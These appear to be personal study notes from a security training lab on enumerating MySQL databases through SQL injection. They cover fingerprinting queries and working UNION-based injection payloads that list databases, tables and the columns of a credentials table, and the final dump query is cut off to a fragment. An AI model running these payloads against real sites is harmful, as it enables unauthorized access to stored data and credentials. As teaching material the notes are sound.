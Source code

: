 
***
###### `Title :- Database Enumeration`
###### `Created on :- 2023-06-17 - 19:34`
###### `Created by:- Prem J`
***

- After mastering the commands of MySQL we now need to know how to put SQL injection into use in order to gain information.

#### `MySQL Fingerprinting -->`

- Before enumerating the database, we usually need to identify the type of DBMS we are dealing with. This is because each DBMS has different queries, and knowing what it is will help us know what queries to use.
- If web server is `Apache` or `Nginx`, it is a good guess that the webserver is running on Linux and DBMS is likely **MySQL**.
- If web server is `IIS` the DBMS is likely to be **MSSQL**.
- There are specific payloads that help in fingerprinting the MySQL databases.

|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|

- similar to the example in [[Union Injection#`Location of Injection -->`]].

![[Pasted image 20230617194109.jpg]]

- the output means that we are dealing with MariaDB which is similar to MySQL.

#### `INFORMATION_SCHEMA Database -->`

- To pull data from tables using `UNION SELECT`, we need to properly form our `SELECT` queries. To do so, we need the following information:

	- List of databases
	- List of tables within each database
	- List of columns within each table

- with the above information we will be able to form the `SELECT` statements to dump data from DBMS.
- this is where we can utilise `INFORMATION_SCHEMA` Database.
- The [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server. 
- This database plays a crucial role while exploiting SQL injection vulnerabilities. As this is a different database, we cannot call its tables directly with a `SELECT`statement. If we only specify a table's name for a `SELECT` statement, it will look for tables within the same database

- to reference a table inside a database we can use `.` operator

```sql
SELECT * FROM my_database.users; -- users table inside my_datbase
```

#### `SCHEMATA -->`

- The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server. This is the starting step for the enumeration on Databases available on the DBMS.
- It is used to obtain database names so we can then query them. The `SCHEMA_NAME` column contains all the database names currently present.

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

>[!tip]
>The first three databases are the default MySQL databases `mysql`, `information_schema`, `performance_schema`. the other two are databases.

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![[Pasted image 20230617211959.png]]

#### `TABLES -->`

- before dumping data from the table we need to know the list of tables to query.
- To find all tables within a database, we can use the `TABLES` table in the `INFORMATION_SCHEMA` Database, it contains info about all the tables throughout the database.
- This table contains multiple columns but we are interested in the `TABLE_SCHEMA` and `TABLE_NAME` columns.
- `TABLE_NAME` column stores table_names
- `TABLE_SCHEMA` column points to the database each table belongs to.
- So we can change the query to 

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

![[Pasted image 20230617230502.jpg]]

- Here we have found all the tables that exist in the database. and what they point to.

#### `COLUMNS -->`

- We have found the tables now we need to dump the data in the tables that we need.
- But we first need to find the column names in the table
- which can be found in the [COLUMNS](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) table in the `INFORMATION_SCHEMA` database. Which contains all the information about the columns present in the database.

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

![[Pasted image 20230617232229.jpg]]

- The target has two columns username and password. Now we can dump data as we have all the required information.

```sql
table_
```

![[Pasted image 20230617232359.png]]

- hence enumeration of databases is solely based on `INFORMATION_SCHEMA.TABLES` and `INFORMATION_SCHEMA.COLUMNS`
